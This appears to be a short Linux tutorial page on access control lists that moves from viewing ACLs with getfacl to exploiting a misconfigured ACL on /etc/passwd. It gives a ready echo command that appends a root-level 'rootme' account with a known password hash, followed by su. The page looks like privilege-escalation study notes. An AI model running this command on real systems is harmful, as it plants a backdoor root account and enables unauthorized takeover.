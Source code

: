 ## Access Control List (ACL) in Linux
ACL allow us to appy a mpre specific set of permissions to a file or directory without chaning the base ownership and permissions. In this we can assain a particular user a specfic permission and give two or more group permission.

## The primary tools for managing ACLs are:
- **getfacle**: – View ACL permissions
- **setfacl**:setfacl – Modify ACL permissions

## Checking ACL permissions
Use the getfacl command to check if a file or directory has ACLs set:
```bash
getfacl /file-path
```

Example output:
```bash
# file: file-name
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
Here, the user user1 has rwx permissions on the file, even though he is not the owner.
## **Exploiting Misconfigured ACLs**
If a user has excessive permissions on sensitive files or executables, privilege escalation may be possible.

### **Write Permissions on /etc/passwd**
If an unprivileged user has write access to /etc/passwd, they can modify it to create a new user with root privileges.

Check ACLs on /etc/passwd
```bash
getfacl /etc/passwd
```
output:
```bash
# file: etc/passwd
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
user1 has write access, they can add a new root user manually:
```bash
echo 'rootme:$1$gi/ZEUV2$uaJQ9FUakihoLNuErGCkw0:0:0:root:/root:/bin/bash' >> /etc/passwd
```
Then, switch to the new root user:
```bash
su rootme
```
Password is 123
